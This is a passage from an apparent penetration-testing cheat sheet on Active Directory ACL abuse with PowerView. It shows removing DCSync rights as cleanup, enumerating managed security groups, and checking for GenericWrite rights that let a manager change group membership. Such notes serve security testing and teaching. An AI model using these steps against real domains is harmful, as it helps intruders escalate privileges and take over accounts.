 Clean up:

```
PV3 > Remove-DomainObjectAcl -TargetIdentity megacorp.local -PrincipalIdentity snovvcrash -Rights DCSync
```




## Managed Security Groups

* [https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/](https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/)

Returns all security groups in the current (or target) domain that have a manager set:

```
PV3 > Get-DomainManagedSecurityGroup

GroupName                : Security Operations
GroupDistinguishedName   : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ManagerName              : john.doe
ManagerDistinguishedName : CN=John Doe,OU=Security,OU=IT,OU=Employees,DC=MEGACORP,DC=LOCAL
ManagerType              : User
ManagerCanWrite          : UNKNOWN
```

Enumerate the ACLs set on this group. `GenericWrite` privilege means that the user can modify group membership:

```
PV3 > $sid = ConvertTo-SID john.doe
PV3 > Get-DomainObjectAcl -Identity 'Security Operations' | ? {$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-2549
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 131132
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-1874
AceType               : AccessAllowed
AceFlags              : ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
AuditFlags            : None
```




## Tools



### Aced

- [https://github.com/garrettfoster13/aced](https://github.com/garrettfoster13/aced)
